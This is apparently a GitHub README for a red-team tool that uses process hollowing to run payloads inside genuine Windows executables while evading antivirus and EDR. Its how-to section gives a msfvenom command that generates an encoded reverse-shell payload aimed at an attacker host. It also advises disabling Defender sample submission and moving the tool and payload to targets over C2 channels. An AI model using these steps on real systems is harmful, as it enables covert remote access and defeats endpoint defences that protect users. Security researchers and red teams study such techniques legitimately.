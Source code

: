 # Process-Hollowing-RedTeamOps
### Red Team Operation's Defense Evasion Technique for executing payload without raising flags on Target System.

## Kindly read [How To Use](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#how-to-use) !! - ***This is a Defense Evasion Technique so with time we add some suggestions for Red Team Ops to fulfill their primary objectives, so you can work Smoothly !!***

> [!WARNING]
> ## **This Binary made for Red Team Operations and user is only be responsible for the use, There's no liability of the Owner.**

# ***Made With ❤️ in 🇮🇳!!!***

### Credit of these Images goes to  their respective creators :relaxed:!!

![hollowing1-1_](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dd3cbd07-ebf0-447e-82f7-9b71384f9b00) 

![491809_1_En_10_Fig27_HTML](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/f972fda2-6e65-4bb8-86e5-5f984619f8fe)


![90540-1sncmwnz19drbfqzllk_d5w](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cdcee61d-1672-4bf6-9acc-2b952747e1cf)



We have both x86 and x64 bit release as you want. **we strongly suggest x64-bit release if you're confused about compiling manually.**

We suggest to use directly compiled executables as in some situations it depends on your compiler functionality. Both executables are stable and tested several times.


**If you wish to Compile x64 bit relese on Kali with cross-compiler - x86_64-w64-mingw32-gcc.** 

**For 32-bit - Mingw for Windows.**

# Index

* [Demo](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#demo)

* [How to use](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#how-to-use)

## Tools Resources and skills used 

1. ChatGPT for researching about required Windows API and functionality.

2. Visual Studio Code - Linux and Windows.

3. Cross-compiler.
4. Process-Hollowing Technique working.

5. Deep-imagination .
6. Error-handling.
7. Programming Skills.
8. Time.
9. Defeating Failures.
10. Tons of Research.
11. Dedication.
12. Smart Work.

## Demo

![windows-hollow](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cbc55b11-94c1-4416-a200-43f76abc9baf)

![kali](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/4a258dcc-0f40-4ec7-9422-1422a97686c9)

![win-update](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/a9421032-566d-49f0-a0a0-9857395a5624)


![firewall](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/96c3d3cd-6708-4640-83f0-e44c4a642907)


![windef-2](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/ca002758-e1e4-43b3-be87-7a59242f80f5)

![windows-def](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dc8b587a-10f4-4408-8203-539640b50cde)

# ⚠️How to use

> [!NOTE]
> ## Sometimes you have to Re-run the program because of Memory Issues. But do not worry, You'll get the shell on Re-run !!!  :nazar_amulet:

### Recommended to Turn-Off "Automatic Sample Submission" If you can or using in the testing environment.

***1. Generate a .bin file only - You can use C2 servers and metasploit too or any you want***

### Example - msfvenom -p windows/x64/shell_reverse_tcp LHOST=< IP > LPORT=< PORT > -f raw -i < iterations as you want for evasion > -e < encoder you want to use > > shell.bin - **x64-Bit**
  
 **2. Obfuscation is mainly your work to do as per your operation's requirement and the other one's? - WE'LL HANDLE!!!**
  
  ***3. Transfer Both Payload and Binary to Target System.***
  
  *4. Execute, But remember .bin files can evade better as per my Personal Experience so, just make your Payload Obfuscated for better Defense Evasion.*
  
  **5. After Execution, Payload will be run as your specified genuine windows executable ( system32's too ).**
  
  ***6. If you're injecting to custom binary - It might fails due to Memory allocation issue , still depends on your Privilege and many 3rd
level factors. But you can give it a try - In some cases it will work !! :nazar_amulet:***

***7. As we know EDR's and AV signatures keep updating, so we created an obfuscated release to assist you and have tested on the Latest Updated Windows . !!!***

 ## ⚠️**Keep few things in mind when using obfuscated release -**  

 * Never Directly Download Executable via Github on the target system, I found some bytes were missing - Technical Issue  + WindowsSmartScreen even mark genuine executables malicious too while downloading .EXE from Github. ( That's why Non-Malicious like WinPEAs , which is for PrivEsc too faces some windowsSmartScreen blockings ) 

* Best way is to Download from Github to your Kali Linux or any Attacker Machine first and then transfer it to Target System via C2 Channels or any you like. ( Invoke-WebRequest too )

* In this case you'll not face any problems regarding missing bytes or EDR. 

* Sometimes you have to apply many other ways to Bypass EDR and there's not always be a Signature-Patch issue. But there might be a Feature or some Technical problems like missing bytes of the binary, which restricting us.



